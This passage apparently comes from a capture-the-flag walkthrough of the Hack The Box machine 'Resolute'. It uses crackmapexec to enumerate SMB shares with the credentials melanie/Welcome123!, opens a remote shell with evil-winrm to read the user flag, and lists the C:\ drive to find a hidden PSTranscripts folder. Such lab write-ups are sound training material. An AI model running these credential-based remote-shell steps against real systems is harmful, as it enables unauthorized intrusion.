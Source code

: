 We can then enumerate the shares but nothing interesting.

    :::text
    crackmapexec smb 10.10.10.169 -u melanie -p 'Welcome123!' --shares
    CME          10.10.10.169:445 RESOLUTE        [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:MEGABANK)
    CME          10.10.10.169:445 RESOLUTE        [+] MEGABANK\melanie:Welcome123!
    CME          10.10.10.169:445 RESOLUTE        [+] Enumerating shares
    CME          10.10.10.169:445 RESOLUTE        SHARE           Permissions
    CME          10.10.10.169:445 RESOLUTE        -----           -----------
    CME          10.10.10.169:445 RESOLUTE        NETLOGON        READ
    CME          10.10.10.169:445 RESOLUTE        SYSVOL          READ
    CME          10.10.10.169:445 RESOLUTE        ADMIN$          NO ACCESS
    CME          10.10.10.169:445 RESOLUTE        IPC$            READ
    CME          10.10.10.169:445 RESOLUTE        C$              NO ACCESS

We can then use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to
connect using Winrm. This let us get the user flag in `melanie` home folder.

    :::text
    ruby evil-winrm.rb -u melanie -p 'Welcome123!' -i 10.10.10.169

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\melanie\Documents> type ..\Desktop\user.txt
    0c3be45fcfe249796ccbee8d3a978540

# Second user

We start enumerating the box. We can even run a
[Bloodhound](https://github.com/fox-it/BloodHound.py) at it.

![Melanie's groups](/media/2020.05/resolute_1.png)

Nothing really interesting except when looking thoroughly at the content of the `C:\` folder.
We found a `PSTranscripts` folder. A
[PSTranscript](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.host/start-transcript)
is simply a transcript of a powershell session.

    :::text
    *Evil-WinRM* PS C:\> dir -force
        Directory: C:\


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
    d--hsl        9/25/2019  10:17 AM                Documents and Settings
    d-----        9/25/2019   6:19 AM                PerfLogs
    d-r---        9/25/2019  12:39 PM                Program Files
    d-----       11/20/2016   6:36 PM                Program Files (x86)
    d--h--        9/25/2019  10:48 AM                ProgramData
    d--h--        12/3/2019   6:32 AM                PSTranscripts
    d--hs-        9/25/2019  10:17 AM                Recovery
    d--hs-        9/25/2019   6:25 AM                System Volume Information
    d-r---        12/4/2019   2:46 AM                Users
    d-----        12/4/2019   5:15 AM                Windows
    -arhs-       11/20/2016   5:59 PM         389408 bootmgr
    -a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
    -a-hs-       12/11/2019   8:48 AM      402653184 pagefile.sys
